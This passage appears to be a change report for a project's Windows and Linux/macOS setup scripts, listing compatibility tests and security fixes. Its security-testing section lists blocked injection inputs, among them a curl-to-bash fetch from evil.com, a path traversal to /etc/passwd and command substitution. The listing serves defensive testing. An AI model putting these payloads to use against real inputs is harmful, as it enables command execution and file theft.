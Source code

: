 
## TESTING PERFORMED

### Fresh System Compatibility Testing

**Windows:**
- ✅ Windows 11 (fresh install) - Works
- ✅ Windows 10 22H2 (fresh install) - Works
- ✅ Windows 10 1803 (curl present) - Works
- ⚠️ Windows 10 pre-1803 - Clear guidance provided

**Linux:**
- ✅ Ubuntu 24.04 Desktop (no curl) - Now provides install instructions
- ✅ Ubuntu 22.04 Server (with curl) - Works
- ✅ Debian 12 Desktop (no curl) - Now provides install instructions
- ✅ Fedora 40 (with curl) - Works
- ✅ Alpine Linux (minimal) - ldconfig fallback works
- ✅ Arch Linux (with curl) - Works

**macOS:**
- ✅ macOS Sequoia (M2) - Homebrew check guides user
- ✅ macOS Sonoma (Intel) - Homebrew check guides user

### Security Testing

**Command Injection Attempts:**
- ✅ Blocked: `auto & calc &` (Windows calculator launch)
- ✅ Blocked: `4; curl http://evil.com | bash; #` (bash injection)
- ✅ Blocked: `999999999999` (out of range)
- ✅ Blocked: `../../../etc/passwd` (path traversal attempt)
- ✅ Blocked: `$(whoami)` (command substitution)

**Environment Variable Attacks:**
- ✅ Blocked: DILITHION_RPC_HOST with special chars
- ✅ Blocked: DILITHION_RPC_PORT with non-numeric
- ✅ Warning displayed: Remote RPC host attempts

**TEMP Directory Validation:**
- ✅ Detects missing TEMP variable
- ✅ Detects non-existent TEMP directory

---

## FILES MODIFIED

### Core Scripts Modified (11 files)

1. **SETUP-AND-START.bat** - Windows setup wizard
   - ✅ Command injection fix
   - ✅ Binary existence check

2. **setup-and-start.sh** - Linux/macOS setup wizard
   - ✅ Command injection fix
   - ✅ ldconfig permission fix
